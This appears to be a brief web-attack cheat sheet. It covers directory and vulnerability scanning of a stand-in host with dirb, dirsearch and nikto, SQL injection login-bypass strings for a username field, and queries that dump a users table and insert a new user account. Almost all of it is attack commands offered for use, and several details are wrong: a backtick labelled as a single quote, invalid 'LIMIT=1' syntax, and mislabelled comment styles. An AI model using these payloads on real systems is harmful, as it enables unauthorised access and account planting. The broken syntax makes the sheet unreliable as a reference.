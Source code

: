 ## Enumerate
```bash
dirb evil.com -r -z10 # recursive; wait 10 milliseconds between delays

python3 dirsearch/dirsearch.py -u evil.com --simple-report demo-webcrawl.txt

nikto -h evil.com -Format txt -o demo-vulnscan-web.txt
```

SQL Injection Vulnerabilities
```bash
` # single-quote
# the resulting error may indicate the underlying web server software, database software, and server OS. 
```

## Exploit
Comments
```sql
# MySQL, MariaDB
-- Oracle
/* Oracle
*/ Oracle
```

SQL Injection Examples
```bash
# return all rows from the table
victor' or 1=1; -- # put in the username field

# return the first row in the table
victor' or 1=1 LIMIT=1; -- # put in the username field
```

## Explore
```sql
SELECT * FROM target.users # database.table
```

## Effect
Add a new user to a SQL database
```sql
INSERT INTO target.users(username, password) VALUES ('victor','please');
```
